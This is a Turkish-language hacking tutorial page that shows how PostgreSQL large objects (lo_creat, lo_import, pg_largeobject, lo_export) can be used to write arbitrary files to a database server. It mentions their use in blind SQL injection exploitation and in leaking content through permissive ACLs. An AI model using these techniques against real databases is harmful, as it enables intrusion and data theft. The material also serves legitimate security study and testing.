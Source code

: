 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### PostgreSQL Büyük Nesneler

PostgreSQL, büyük veri türlerini, örneğin resimler veya PDF belgeleri gibi, depolamak için tasarlanmış **büyük nesneler** olarak bilinen bir yapı sunar ve bu nesnelere `pg_largeobject` tablosu aracılığıyla erişilir. Bu yaklaşım, verilerin dosya sistemine geri **aktarılarak** orijinal dosyanın tam bir kopyasının korunmasını sağladığı için `COPY TO` işlevine göre avantajlıdır.

Bu tabloda **tam bir dosya depolamak** için, `pg_largeobject` tablosunda bir nesne oluşturulmalı (bir LOID ile tanımlanır) ve ardından bu nesneye her biri 2KB boyutunda veri parçaları eklenmelidir. Bu parçaların tam olarak 2KB boyutunda olması (son parçanın istisna olabileceği durumlar hariç) gereklidir, böylece aktarma işlevi doğru çalışır.

**İkili verilerinizi** 2KB parçalarına **bölmek** için aşağıdaki komutlar çalıştırılabilir:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
Her dosyayı Base64 veya Hex'e kodlamak için aşağıdaki komutlar kullanılabilir:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**Önemli**: Bu süreci otomatikleştirirken, 2KB'lık açık metin baytları parçaları göndermeyi garanti edin. Hex kodlu dosyalar, boyutun iki katına çıkması nedeniyle her parça için 4KB veri gerektirirken, Base64 kodlu dosyalar `ceil(n / 3) * 4` formülünü takip eder.

Büyük nesnelerin içeriği, hata ayıklama amaçları için şu şekilde görüntülenebilir:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Using `lo_creat` & Base64

İkili verileri depolamak için önce bir LOID oluşturulur:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
Hassas kontrol gerektiren durumlarda, örneğin Blind SQL Injection istismarında, sabit bir LOID belirtmek için `lo_create` tercih edilir.

Veri parçaları daha sonra şu şekilde eklenebilir:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
Büyük nesneyi kullanımdan sonra dışa aktarmak ve potansiyel olarak silmek için:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### `lo_import` ve Hex Kullanımı

`lo_import` fonksiyonu, büyük bir nesne için bir LOID oluşturmak ve belirtmek için kullanılabilir:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
Oluşturma işleminden sonra, her sayfa için veri eklenir ve her parça 2KB'yi geçmez:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
Veri aktarımını tamamlamak için, veriler dışa aktarılır ve büyük nesne silinir:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Limitations

**Büyük nesnelerin ACL'leri** (Erişim Kontrol Listeleri) olabileceği belirtilmiştir, bu da kullanıcı tarafından oluşturulan nesnelere bile erişimi kısıtlayabilir. Ancak, izin verici ACL'lere sahip eski nesneler hala içerik sızdırma için erişilebilir olabilir. 

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
